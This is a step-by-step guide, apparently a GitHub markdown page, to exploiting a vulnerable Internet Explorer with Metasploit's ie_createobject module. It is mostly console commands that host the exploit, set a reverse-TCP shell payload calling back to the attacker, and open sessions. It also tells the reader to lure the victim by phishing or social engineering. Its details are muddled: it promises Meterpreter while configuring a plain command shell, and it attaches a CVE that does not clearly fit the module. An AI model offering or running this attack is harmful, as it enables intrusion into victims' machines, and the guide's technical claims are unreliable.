# Implementing a Client-Side Attack with Metasploit: A Step-by-Step Guide with Code

## Step-by-Step Guide with Code

> [!CAUTION]
> **Scenario:** You have identified a target system running a vulnerable version of Internet Explorer. You aim to exploit a client-side vulnerability (e.g., CVE-2017-0165) to gain a Meterpreter session on the target.

**Steps:**

1. `**Launch Metasploit and Select the Exploit:**`
2. msfconsole
3. msf6 > use exploit/windows/browser/ie\_createobject
4. This command loads the ie\_createobject exploit module, which targets a vulnerability in how Internet Explorer handles the CreateObject method. \[1]
5. **Gather Information about the Exploit:**
6. msf6 exploit(ie\_createobject) > info
7. The info command displays detailed information about the selected exploit, including its description, target platforms, options, and available payloads. This helps you understand the exploit's capabilities and requirements. \[2]
8. **Configure the Exploit:**
9. msf6 exploit(ie\_createobject) > options
10. msf6 exploit(ie\_createobject) > set SRVHOST 10.10.10.5 # Replace with your IP address
11. The options command shows the exploit's configurable options. The SRVHOST option specifies the IP address Metasploit will use to set up a web server to host the exploit. Set this to your IP address. \[3]
12. **Select and Configure a Payload:**
13. msf6 exploit(ie\_createobject) > set PAYLOAD windows/shell/reverse\_tcp
14. msf6 exploit(ie\_createobject) > set LHOST 10.10.10.5 # Replace with your IP address
15. msf6 exploit(ie\_createobject) > set EXITFUNC thread

> [!IMPORTANT]
> - set PAYLOAD: This command selects the payload to deliver upon successful exploitation. The windows/shell/reverse\_tcp payload creates a reverse shell connection back to your machine. \[4]
> - set LHOST: Set this option to your IP address, as it's the address the reverse shell will connect back to. \[5]
> - set EXITFUNC: Setting EXITFUNC to thread prevents the exploited process from crashing, allowing for further interaction. \[4]

1. `**Launch the Exploit:**`
2. msf6 exploit(ie\_createobject) > run
3. This command starts the exploit, setting up a web server on your machine to host the malicious code. The output will display the URL where the exploit is hosted (e.g., http\://10.10.10.5:8080). \[6]
4. **Deliver the Exploit to the Target:**
5. You need to entice the target user to visit the URL hosting the exploit. This can be done through phishing emails, social engineering, or other means. When the target opens the URL in their vulnerable Internet Explorer browser, the exploit will be triggered. \[7]
6. **Establish a Meterpreter Session:**
7. Once the exploit successfully executes, Metasploit will display a message indicating a new session has been opened. Use the sessions command to interact with the session:
8. msf6 exploit(ie\_createobject) > sessions
9. msf6 exploit(ie\_createobject) > sessions -i 1 # Replace 1 with the session ID
10. You will now have a Meterpreter shell on the target system, allowing you to execute commands, gather information, and perform further post-exploitation activities. \[8]

> [!NOTE]
> > [!IMPORTANT]
> > **Considerations:**
> > 
> > - **Background Jobs:** The ie\_createobject exploit runs as a background job in Metasploit, meaning you can continue interacting with the msfconsole while the exploit is active. Use the jobs command to view and manage running jobs. \[9]
> > - **Exploit Delivery:** The success of this attack relies on successfully delivering the exploit URL to the target. This often involves social engineering tactics to trick users into visiting the malicious website.
